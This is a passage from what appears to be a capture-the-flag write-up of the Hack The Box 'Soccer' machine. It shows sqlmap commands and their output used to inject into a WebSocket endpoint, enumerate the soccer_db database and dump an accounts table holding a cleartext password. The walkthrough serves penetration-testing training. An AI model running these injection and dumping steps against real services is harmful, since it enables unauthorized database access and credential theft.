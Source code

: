 ```bash
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end users responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:48:35 /2024-04-10/

<...SNIP...>

available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys

<...SNIP...>
```
I enumerate the tables of the database by using the `-D` flag to specify the database to use, and the `--tables` flag to enumerate all the tables. This reveals just one table, `accounts`
```bash
┌──(kali㉿Kali)──[15:49:16]──[~/htb/Machines/Soccer/www]
└─$ sqlmap -u ws://soc-player.soccer.htb:9091 --batch --data '{"id":"99912"}' --batch --threads=10 -D soccer_db --tables

<...SNIP>

Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+

<...SNIP...>
```
I then add th `-T` flag to specify the table to enumerate, and the `--columns` flag to list the columns of the `accounts` table. This reveals the `username` and `password` columns. Bingo.
```bash
┌──(kali㉿Kali)──[15:51:06]──[~/htb/Machines/Soccer/www]
└─$ sqlmap -u ws://soc-player.soccer.htb:9091 --batch --data '{"id":"99912"}' --batch --threads=10 -D soccer_db -T accounts --columns

<...SNIP...>   

Database: soccer_db
Table: accounts
[4 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| email    | varchar(40) |
| id       | int         |
| password | varchar(40) |
| username | varchar(40) |
+----------+-------------+
```
I add the `--dump` flag to dump the `accounts` table from the `soccer_db` database. This gets me a cleartext password for the user `player`.
```bash
┌──(kali㉿Kali)──[15:53:11]──[~/htb/Machines/Soccer/www]
└─$ sqlmap -u ws://soc-player.soccer.htb:9091 --batch --data '{"id":"99912"}' --batch --threads=10 -D soccer_db -T accounts --columns --dump

<...SNIP...>

```